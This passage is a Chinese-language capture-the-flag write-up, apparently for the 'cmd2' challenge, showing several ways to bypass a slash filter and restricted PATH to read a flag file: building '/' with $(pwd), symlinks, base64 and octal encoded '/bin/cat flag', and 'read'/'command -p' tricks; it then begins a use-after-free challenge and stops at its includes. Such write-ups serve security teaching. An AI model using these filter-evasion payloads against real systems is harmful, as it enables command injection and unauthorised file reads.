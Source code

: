   

### 题目解析

  

比起上一道题目难了许多，最麻烦的就是过滤了/，不能再`/bin/cat fl*`，当然还是有办法绕过。

  

-   **pwd方式**  
    虽然因为程序设置了PATH导致无法执行很多命令，但是发现可以执行pwd，有两种方法

1.  进入到根目录`/`,此时pwd返回的结果就是`/`，利用`$(pwd)`就可以得到`/`接着构造payload：  
    `/home/cmd2/cmd2 '$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fl*'`
2.  首先在tmp目录下创建目录`/tmp/test/c`，这样在此目录下执行pwd会得到`/tmp/test/c`，接着在`/tmp/test`目录下建立cat的软连接：`ln -s /bin/cat cat`，在`/tmp/test/c`下建立flag的软连接：`ln -s /home/cmd2/flag flag`，然后在`/tmp/test/c`目录下执行命令：`/home/cmd2/cmd2 "$(pwd)at f*"`

-   编码方式

1.  BASE64  
    首先将`/bin/cat /home/cmd2/flag`进行base64编码，得到`L2Jpbi9jYXQgL2hvbWUvY21kMi9mbGFnCg==`，但是因为有=，所以需要在原来的字符串中插入两个空格，就不会有=了。  
    `echo "\57"`可以输出`/`，利用管道符进行解码，最后就可以得到flag  
    `./cmd2 '$(echo "L2Jpbi9jYXQgL2hvbWUvY21kMi9mbGFnICAK" | $(echo "\57")usr$(echo "\57")bin$(echo "\57")base64 -d)'`
2.  8进制  
    算出`/bin/cat flag`8进制代码，得到`\057\0142\0151\0156\057\0143\0141\0164\040\0146\0154\0141\0147`，接着执行`./cmd2 '$(echo "\057\0142\0151\0156\057\0143\0141\0164\040\0146\0154\0141\0147")'`

-   脑洞大开方式

1.  利用read写入环境变量并执行  
    执行`./cmd2 "read a;\$a"`，输入`/bin/cat flag`得到flag  
    `read a;`写入一个a变量，`\$a`转义`$`字符，执行`$a`变量。
2.  shell内置函数command的参数`-p`

./cmd2 "command -p cat \"f\"l\"a\"g"

  

## uaf

  

### 题目描述

  

Mommy, what is Use After Free bug?

  

#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;
